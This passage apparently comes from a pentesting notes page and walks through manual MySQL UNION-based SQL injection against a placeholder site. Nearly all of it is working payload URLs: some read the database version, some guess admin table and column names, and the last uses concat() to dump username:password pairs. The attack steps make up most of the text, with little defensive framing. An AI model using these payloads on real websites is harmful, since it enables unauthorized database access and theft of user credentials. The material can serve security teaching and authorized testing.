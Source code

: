 ```http
http://$ip/news.php?id=5 union all select 1,convert(@@version using latin1),3/
```

or with **hex()** and **unhex()**

```http
http://$ip/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
```

and you will get MySQL version

### Getting table and column name

If the MySQL version is < 5 (i.e 4.1.33, 4.1.12...) you must guess the table and column names

Common table names are:

```
users, admins, members ..
```

Common column names are:

```
username, user, usr, user_name, password, pass, passwd, pwd etc..
```

For example:

```
http://$ip/news.php?id=5 union all select 1,2,3 from admin/*
```

If you see number 2 on the screen like before, and that's good, you know that there is a table called admin in the database. Else try another table name.

Now to check column names:

```
http://$ip/news.php?id=5 union all select 1,password,3 from admin/*
```

If you get an error, then try the other column name

You will hopefully see the password on the screen in hash or plain-text, it depends of how the database is set up. For example i.e md5 hash, mysql hash, sha1...

Now you must complete query to look nice for that you can use **concat()** function (it joins strings).

```
http://$ip/news.php?id=5 union all select 1,concat(username,0x3a,password),3 from admin/*
```

{% hint style="info" %}
Note that I put 0x3a, its hex value for : (so 0x3a is hex value for colon)
{% endhint %}

{% hint style="info" %}
There is another way for that, char(58), ascii value for a colon
{% endhint %}
